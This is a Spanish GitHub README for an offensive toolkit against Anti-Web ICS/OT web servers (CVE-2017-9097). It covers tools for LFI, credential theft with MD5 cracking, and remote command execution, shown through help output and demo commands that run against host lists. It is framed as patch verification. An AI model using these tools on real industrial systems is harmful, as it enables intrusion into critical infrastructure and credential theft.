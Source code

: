 # AntiWeb: Testing Suite

## Introducción 
Una vulnerabilidad ha sido encontrada en aplicaciones web usadas en ics/ot que corren sobre servidores Anti-Web (hasta 3.8.7).
La vulnerabilidades que se han identificado  afectan a varios fabricantes de renombre en la industria de la automatización de procesos industriales y telecomunicaciones. Estos devices ya cuentan con dos viejos CVEs (CVE-2010-4730 & CVE-2010-473) a lo que luego de reportar consiguió un tercero CVE (2017-9097) e inmediatamente el vendor lanzó un parche. En inmediatamente siguieron otros. 


Para tener una referencia aproximada del grado de exposición con la que cuentan esto dispositivos nos valemos de los host que se encuentran indexados en Shodan, siendo estos un poco mayor de 800 devices potencialmente vulnerables. 

Con respecto al LFI que nuestra tool procura de explotar, hoy los distintos vendors afectados ya cuentan con sus respectivos parche oficiales que contrarresta la vulnerabilidad. Por lo que de alguna forma el intentar explotar el fallos viene a corroborar el compromiso de los operadores y responsables de estas tecnologías, respondiendo a una pregunta fundamental: "Se habrán instalado los parches correspondientes?" 

# Las tools son 3:
Una de las primeras herramientas procura explotar y corroborar la existencia de un LFI. Una segunda herramienta tratara de sacarle partido al LFI, tomando el archivo en donde se guardar las credenciales que dan acceso al panel web. El donde los usernames están en plano y las passwords están hasheadas con md5 que la herramienta tratara de romper.
y finalmente una última herramienta que explotara un RCE. 



# Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/AntiWeb_testing-Suite
	usr@pwn:~$ cd AntiWeb_testing-Suite
	usr@pwn:~$ ls -l 

***
	total 16
	drwxr-xr-x 4 root root 4096 sep 14 21:05 LFI
	drwxr-xr-x 4 root root 4096 sep 14 21:05 RCE
	-rwxrwxr-x 1 root root 1852 sep 24 08:42 README.md
	drwxr-xr-x 3 root root 4096 sep 24 08:00 seekAndDestroy
***


# Uso: "Anti-web" 
***
 	usr@pwn:~$ python anti-web-v1.py --help
	usage: anti-web.py [-h] [-v] --host HOST [--port PORT] [--file LFI]

	[+] CVE: CVE-2017-9097

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    host
	  --port PORT    set port (default = 80)
	  --file LFI     Test LFI

	[+] Demo: anti-web.py --host 192.168.1.100 --port 80
***

# Uso: "Seek And Destroy"

***
	usr@pwn:~$ python seekAndDestroy.py --help
	usage: seekAndDestroy.py [-h] [-v] [--host HOST] [--list HOST_LIST]
	                         [--port PORT]

	[+] Obtain and break the credentials of your industrial control system .

	optional arguments:
	  -h, --help        show this help message and exit
	  -v, --version     show program's version number and exit
	  --host HOST       host
	  --list HOST_LIST  hosts
	  --port PORT       set port (default = 80)

	[+] Usage: seelAndDestroy.py --list host_list.txt --port 8080

***


# Uso: 

***
	usr@pwn:~$ python rce.py --help
	usage: RCE.py [-h] [-v] --host HOST [--port PORT] -ck COOKIE --cmd COMMAND

	[+] COMMANDS over your industrial control system .

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port
	  -ck COOKIE     Cookie
	  --cmd COMMAND  Command

	[+] Demo: python rce.py --host <host> -ck <sessionCookie> --cmd "ls -la /"

***

## Demo

....Wait




Las herramientas en cuestión están en (AntiWeb_testing-Suite):
https://github.com/ezelf/AntiWeb_testing-Suite/


Video que combina las tres tools:
https://www.youtube.com/watch?v=HdkZA1DO08Y

 
